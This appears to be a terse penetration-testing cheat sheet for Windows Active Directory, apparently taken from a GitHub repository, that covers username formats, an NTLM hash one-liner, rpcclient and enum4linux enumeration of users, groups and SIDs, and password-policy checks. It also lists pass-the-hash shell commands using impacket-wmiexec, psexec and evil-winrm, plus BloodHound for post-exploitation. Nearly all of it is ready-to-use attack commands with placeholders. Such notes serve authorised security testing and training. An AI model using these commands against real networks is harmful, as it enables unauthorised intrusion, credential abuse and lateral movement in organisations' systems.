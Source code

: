 https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens

## Domain username convention
firstlast
flast
firlas
first.last
f.last
fir.las

`python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'`


## Password Policy
`polenum 'USERNAME':'PASSWORD'@IP`
`crackmapexec smb IP -u '' -p '' --pass-pol`


## Password Bruteforce


## Info
`Enum4linux <IP> 2>/dev/null`
`rpcclient -U 'USERNAME' -N <IP>`
`rpcclient -U 'USERNAME'%'PASSWORD' <IP>`
Domainname & info & SID
        	lsaquery
        	querydominfo
	OS information
		srvinfo
	Password Policy
        	getdompwinfo
	Printer info
      		enumprinters
	Users & get SID & SID lookup
	       	enumdomusers			(domain users & RIDs)
	       	querydispinfo			    (accounts & RIDs)
	       	queryuser RID			   (info domain user)
	Groups
	       	enumdomgroups		       (domain groups & RIDs)
	       	querygroup RID			  (info domain group)
	       	querygroupmem RID	     (user RID in group)
	       	enumalsgroups builtin	      (builtin groups)
      		enumalsgroups domain	   (local groups)
	SID
      		lsaenumsid			     (LSA SIDs)
	       	lookupnames USERNAMES   (SID lookup)
	       	lookupsids SID			    (name lookup)
	Shares
	       	netshareenumall
	       	netsharegetinfo


## Expoitation
#### Check
`crackmapexec SERVICE IP -u "USER" -p PASS`
`crackmapexec SERVICE IP -u "USER" -H HASH`

#### Shell
`impacket-wmiexec -hashes 'HASH' USER@IP`
`impacket-psexec -hashes 'HASH' USER@IP`
`evil-winrm -i IP -u USER -H "HASH"`
`evil-winrm -i IP -u USER -p "PASS"`

## Post-exploitation
`Bloodhound`
`SharpHound`